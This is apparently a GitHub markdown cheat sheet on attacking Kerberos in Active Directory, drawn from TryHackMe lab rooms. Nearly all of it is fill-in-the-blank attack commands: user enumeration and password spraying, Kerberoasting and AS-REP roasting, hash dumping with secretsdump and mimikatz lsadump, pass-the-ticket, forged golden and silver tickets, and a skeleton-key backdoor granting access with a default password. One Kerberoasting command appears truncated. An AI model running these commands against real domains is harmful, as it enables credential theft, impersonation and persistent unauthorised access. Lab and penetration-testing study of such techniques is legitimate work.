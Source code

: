 # Attacking Kerberos
* [Enumeration with Kerbrute](#enumeration-with-kerbrute)
* [Harvesting and Brute Forcing Tickets with Rubeus](#harvesting-and-brute-forcing-tickets-with-rubeus)
* [Kerberoasting with Rubeus and Impacket](#kerberoasting-with-rubeus-and-impacket)
* [AS-REP Roasting with Rubeus](#as-rep-roasting-with-rubeus)
* [Pass the Ticket with mimikatz](#pass-the-ticket-with-mimikatz)
* [Golden and Silver Ticket Attacks with mimikatz](#golden-and-silver-ticket-attacks-with-mimikatz)
* [Kerberos Backdoors with mimikatz](#kerberos-backdoors-with-mimikatz)

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

## Enumeration with Kerbrute

Kerbrute Installation:
* https://github.com/ropnop/kerbrute/releases

Brute force user accounts from a domain controller using a supplied wordlist:
```
./kerbrute userenum --dc [DOMAIN-CONTROLLER] -d [DOMAIN] [WORDLIST]
```
Example:
```
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```
*********************************************************************************
## Harvesting and Brute Forcing Tickets with Rubeus

Rubeus Installation:
* https://github.com/GhostPack/Rubeus

Tell Rubeus to harvest TGTs every 30 seconds:
```
Rubeus.exe harvest /interval:30
```
Before password spraying with Rubeus, add domain controller domain name to windows host file with this command:
```
echo [DOMAIN-IP] [DOMAIN-NAME] >> C:\Windows\System32\drivers\etc\hosts
```
Example:
```
echo 10.10.24.234 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
```

Take given password and "spray" it against all found users then give .kirbi TGT for that user:
```
Rubeus.exe brute /password:[PASSWORD] /noticket
```
Example:
```
Rubeus.exe brute /password:Password1 /noticket
```
*********************************************************************************
## Kerberoasting with Rubeus and Impacket

### Rubeus

Dump Kerberos hash of any kerberoastable users:
```
Rubeus.exe
```

### Impacket

Impacket Installation:
* https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19

Ensure dependencies are installed:
```
cd [IMPACKET-LOCATION]
```
```
pip install .
```
Navigate to where GetUserSPNs.py is located:
```
cd /usr/share/doc/python3-impacket/examples/
```
Dump Kerberos hash for all kerberoastable accounts on target machine remotely:
```
sudo python3 GetUserSPNs.py [DOMAIN-NAME]/Machine1:[PASSWORD] -dc-ip [DOMAIN-CONTROLLER-IP] -request
```
Example:
```
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.24.234 -request
```

Retrieve all password hashes from given user account:
```
python3 secretsdump.py [DOMAIN-NAME]/backup:[USERNAME]@[TARGET-IP]
```
Example: 
```
python3 /opt/impacket/examples/secretsdump.py spookysec.local/backup:backup2517860@10.10.6.165
```
*********************************************************************************
## AS-REP Roasting with Rubeus

Look for vulnerable users then dump their hashes:
```
Rubeus.exe asreproast
```
*********************************************************************************
## Pass the Ticket with mimikatz

Run mimikatz
```
mimikatz.exe
```

Ensure proper privileges: (output '20' OK)
```
privilege::debug
```

Export all .kirbi tickets into current directory:
```
sekurlsa::tickets /export
```

Use harvested ticket to cache and impersonate given ticket:
```
kerberos::ptt [TICKET]
```

List cached tickets for impersonation verification:
```
klist
```
*********************************************************************************
## Golden and Silver Ticket Attacks with mimikatz

Dump hash and security identifier to create golden/silver ticket:
```
lsadump::lsa /inject /name:[ACCOUNT]
```
Example:
```
lsadump::lsa /inject /name:krbtgt
```

Create Golden/Silver Ticket:
```
Kerberos::[golden or silver] /user:[USERNAME] /domain:[DOMAIN-NAME] /sid:[SID] /krbtgt:[NTLM-HASH] /id:[500 (golden) OR 1103 (silver)]
```
Example:
```
Kerberos::silver /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158
860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:1103
```

Open new elevated command prompt with given ticket in mimikatz:
```
misc::cmd
```
*********************************************************************************
## Kerberos Backdoors with mimikatz

Install skeleton key:
```
misc::skeleton
```

### Accessing the Forest

* The default credentials will be: "mimikatz"

Access share without admin password example:
```
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
```
*********************************************************************************
## References
* https://tryhackme.com/room/attackingkerberos#
* https://tryhackme.com/room/attacktivedirectory
